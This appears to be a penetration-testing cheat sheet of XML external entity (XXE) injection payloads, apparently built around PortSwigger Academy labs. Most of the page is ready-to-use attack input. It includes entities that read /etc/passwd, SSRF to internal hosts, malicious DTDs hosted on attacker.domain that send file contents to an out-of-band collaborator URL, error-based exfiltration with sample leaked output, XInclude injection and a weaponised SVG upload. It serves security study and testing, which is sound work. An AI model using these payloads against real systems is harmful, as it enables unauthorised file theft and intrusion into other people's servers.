 ```yaml
---
title : "XXE Injection"
pre : '<i class="fa fa-file-excel"></i> '
description : "XXE injection payloads."
date : 2022-03-11T18:01:46+01:00
# hidden : true
# draft : true
weight : 160
# tags : ['']
---
```


---

## XML external entity (XXE) injection

## Retrieve files

Add DOCTYPE line to XML and call entity via a value used in the app.

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

## Invoke SSRF

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<foo>&xxe;</foo>
```

## Blind XXE

If response is not returned to client, we can use Burp collaborator for out-of-band testing ([read about OAST](https://portswigger.net/burp/application-security-testing/oast)).

### Blind XEE using OAST

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> ]>
<foo>&xxe;</foo>
```

### Blind XEE using OAST via XML parameter entities

Add DOCTYPE line to XML with Burp collaborator URL and call XML parameter entity via a value used in the app (mind the '%' in both lines).

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY % xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> %xxe; ]>
<foo>%xxe;</foo>
```

### Blind XXE to exfiltrate data via OAST

In order to exfiltrate data using XEE via OAST, you need to host DTD.
Note that files with newlines (e.g. '/etc/passwd') cannot be exfiltrated this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://SUBDOMAIN.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://attacker.domain/dtd"> %xxe;]>
```

### Blind XXE to exfiltrate data via error messages

Works if the app returns the resulting error message within its response. It's possible to exfiltrate files with newlines this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://malicious.domain/dtd"> %xxe;]>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1339

"XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

### Blind XXE by repurposing a local DTD

See [PortSwigger Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

## Exploiting XInclude to retrieve files

Often you don't see the XML from a client's perspective. Instead, the app backend embeds user input into an XML document. Classic XXE will not work, but we can use XInclude for this.

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example in HTTP request (injecting via 'productId' example parameter):

```plain
POST /product/stock HTTP/1.1
Host: example.net
Content-Type: application/x-www-form-urlencoded
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1278

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
```

## XXE via file upload

Upload SVG file containing XXE code:

```plain
<?xml version="1.0" standalone="yes"?><!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type

Some apps tolerant changing the content type to XML.

Normal HTTP request:

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Request content changed to XML, opening possible XXE attack surface:

``` plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## URL List

- [Portswigger.net academy - XXE injection](https://portswigger.net/web-security/xxe)
